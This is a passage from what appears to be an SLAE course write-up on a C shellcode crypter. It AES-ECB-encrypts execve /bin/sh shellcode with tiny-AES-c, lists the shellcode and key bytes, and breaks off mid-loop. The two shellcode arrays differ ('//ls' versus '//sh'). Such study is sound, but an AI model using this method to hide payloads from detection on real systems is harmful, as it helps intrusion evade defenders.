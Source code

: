 ## tiny-AES-c

A smaller way is to used a compiled langage as C. The following code is based on a AES library found on GitHub: https://github.com/kokke/tiny-AES-c.

Important point to notice is that *No padding is provided so for CBC and ECB all buffers should be multiples of 16 bytes.*

The code is based on the *test.c* file from *github*.

## Encrypter

Shellcode will be manually padded with NOP (0x90):

```C
    uint8_t shellcode[SHELLCODELENGTH] = { (uint8_t) 0x31, (uint8_t) 0xc0, (uint8_t) 0x50, (uint8_t) 0x68, (uint8_t) 0x2f, (uint8_t) 0x2f, (uint8_t) 0x6c, (uint8_t) 0x73, (uint8_t) 0x68, (uint8_t) 0x2f, (uint8_t) 0x62, (uint8_t) 0x69, (uint8_t) 0x6e, (uint8_t) 0x89, (uint8_t) 0xe3, (uint8_t) 0x50, (uint8_t) 0x89, (uint8_t) 0xe2, (uint8_t) 0x53, (uint8_t) 0x89, (uint8_t) 0xe1, (uint8_t) 0xb0, (uint8_t) 0xb, (uint8_t) 0xcd, (uint8_t) 0x80, (uint8_t) 0x90, (uint8_t) 0x90, (uint8_t) 0x90, (uint8_t) 0x90, (uint8_t) 0x90, (uint8_t) 0x90, (uint8_t) 0x90 };
``` 

Key will be: securitytubeSLAE

```C
    uint8_t key[16] =        { (uint8_t) 0x73, (uint8_t) 0x65, (uint8_t) 0x63, (uint8_t) 0x75, (uint8_t) 0x72, (uint8_t) 0x69, (uint8_t) 0x74, (uint8_t) 0x79, (uint8_t) 0x74, (uint8_t) 0x75, (uint8_t) 0x62, (uint8_t) 0x65, (uint8_t) 0x53, (uint8_t) 0x4c, (uint8_t) 0x41, (uint8_t) 0x45 };
``` 

The full encrypter code is :

```C
#include <stdio.h>
#include <string.h>
#include <stdint.h>

#include "aes.h"

#define SHELLCODELENGTH 32

static void phex(uint8_t* str);

int main(void)
{	
    uint8_t i;

    uint8_t key[16] =        { (uint8_t) 0x73, (uint8_t) 0x65, (uint8_t) 0x63, (uint8_t) 0x75, (uint8_t) 0x72, (uint8_t) 0x69, (uint8_t) 0x74, (uint8_t) 0x79, (uint8_t) 0x74, (uint8_t) 0x75, (uint8_t) 0x62, (uint8_t) 0x65, (uint8_t) 0x53, (uint8_t) 0x4c, (uint8_t) 0x41, (uint8_t) 0x45 };

    uint8_t shellcode[SHELLCODELENGTH] = { (uint8_t) 0x31, (uint8_t) 0xc0, (uint8_t) 0x50, (uint8_t) 0x68, (uint8_t) 0x2f, (uint8_t) 0x2f, (uint8_t) 0x73, (uint8_t) 0x68, (uint8_t) 0x68, (uint8_t) 0x2f, (uint8_t) 0x62, (uint8_t) 0x69, (uint8_t) 0x6e, (uint8_t) 0x89, (uint8_t) 0xe3, (uint8_t) 0x50, (uint8_t) 0x89, (uint8_t) 0xe2, (uint8_t) 0x53, (uint8_t) 0x89, (uint8_t) 0xe1, (uint8_t) 0xb0, (uint8_t) 0x0b, (uint8_t) 0xcd, (uint8_t) 0x80, (uint8_t) 0x90, (uint8_t) 0x90, (uint8_t) 0x90, (uint8_t) 0x90, (uint8_t) 0x90, (uint8_t) 0x90, (uint8_t) 0x90 };

    printf("Encoded shellcode:\n");
    
    struct AES_ctx ctx;
    AES_init_ctx(&ctx, key);

    for (i = 0; i < SHELLCODELENGTH / 16; ++i)
    {
      AES_ECB_encrypt(&ctx, shellcode + (i * 16));
```